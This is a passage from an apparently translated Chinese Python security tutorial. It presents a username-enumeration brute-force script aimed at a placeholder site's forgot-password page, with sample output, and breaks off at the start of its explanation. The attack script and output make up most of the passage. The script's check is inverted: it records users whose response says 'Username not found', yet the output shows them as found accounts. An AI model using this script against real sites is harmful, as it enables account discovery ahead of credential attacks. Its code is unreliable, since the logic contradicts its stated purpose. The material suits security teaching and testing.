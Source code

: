 此脚本将尝试检查所提供列表中的用户名，以确定应用程序中是否存在帐户：

```py
#brute force username enumeration
import sys
import urllib
import urllib2

if len(sys.argv) !=2:
    print "usage: %s filename" % (sys.argv[0])
    sys.exit(0)

filename=str(sys.argv[1])
userlist = open(filename,'r')
url = "http://www.vulnerablesite.com/forgotpassword.html"
foundusers = []
UnknownStr="Username not found"

for user in userlist:
  user=user.rstrip()
  data = urllib.urlencode({"username":user})
  request = urllib2.urlopen(url,data)
  response = request.read()

  if(response.find(UnknownStr)>=0):
    foundusers.append(user)
  request.close()
userlist.close()

if len(foundusers)>0:
  print "Found Users:\n"
  for name in foundusers:
    print name+"\n"
else:
  print "No users found\n"
```

以下是此脚本的输出示例：

```py
python bruteusernames.py userlist.txt
Found Users:
admin
angela
bob
john

```

## 它是如何工作的…

这个脚本引入了比基本用户名检查更多的概念。第一个是打开文件以加载我们的列表：
